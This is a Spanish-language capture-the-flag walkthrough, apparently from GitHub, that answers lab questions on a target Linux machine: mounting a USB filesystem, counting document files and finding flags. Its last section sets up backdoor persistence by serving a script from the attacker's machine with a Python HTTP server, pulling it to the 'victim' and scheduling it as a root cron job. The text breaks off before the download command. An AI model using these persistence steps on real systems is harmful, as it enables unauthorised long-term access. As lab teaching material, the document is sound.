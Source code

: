 Al tratarse de un dispositivo externo, buscamos en /dev un archivo que sea del tipo 'filesystem' con el siguiente comando:

```defaul
root@linux05:/# for i in $(ls /dev -R); do file /dev/$i;done | grep filesystem
/dev/usb: Linux rev 1.0 ext2 filesystem data, UUID=7352c0a1-f2b4-4ded-97be-9b03ca1cfcce (extents) (64bit) (large files) (huge files)
```

Observamos que el único archivo que parece ser un sistema de ficheros es uno denominado '/dev/usb'. Ese es nuestro usb y lo montamos creando un punto de montaje en /mnt como directorio 'usb' y con la utiliadad 'mount' montamos la imagen a través del siguiente comando:

```defaul
root@linux05:/# mkdir /mnt/usb; mount /dev/usb /mnt/usb; ls /mnt/usb
bad-flag.csv  flag.txt  lost+found  wrong-flag.doc
```

<br />

**5. ¿Cuántos archivos .doc y .csv en total hay en la máquina de destino (incluida la unidad adicional)?**

Aplicamos el siguiente comando:

```defaul
root@linux05:/# (find / -name '*.doc' 2>/dev/null && find / -name '*.csv' 2>/dev/null) | wc -l
15
```

<br />

**6. ¿Cuál es la bandera en el directorio de inicio de la raíz?** 

Lo buscamos con el siguiente comando:

```bash
find /root -name '*flag*' 2>/dev/null
```

<br />

**7. Copie el archivo backup.sh proporcionado en la máquina de destino y ejecútelo. Este script nos ayudará a crear una puerta trasera más persistente para el sistema. Otorgue permisos ejecutables a este script y luego ejecútelo para crear la copia de _seguridad_ del archivo. Copie la copia de seguridad del archivo resultante en /usr/bin/backup en la máquina de destino. Asegúrese de que el archivo sea propiedad de root y luego programe un crontab en todo el sistema que ejecute este script a las 2 a. m. todos los días. Finalmente, ejecute el binario backup_check ubicado en el directorio de inicio de la raíz para obtener el indicador.**

En primer lugar, abrimos en nuestra máquina local un servidor http con pyhton en el directorio en el que tenemos el fichero 'backup.sh'.

```bash
python3 -m http.server                                                                                      
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Y lo descargamos desde la máquina víctima con 'curl':
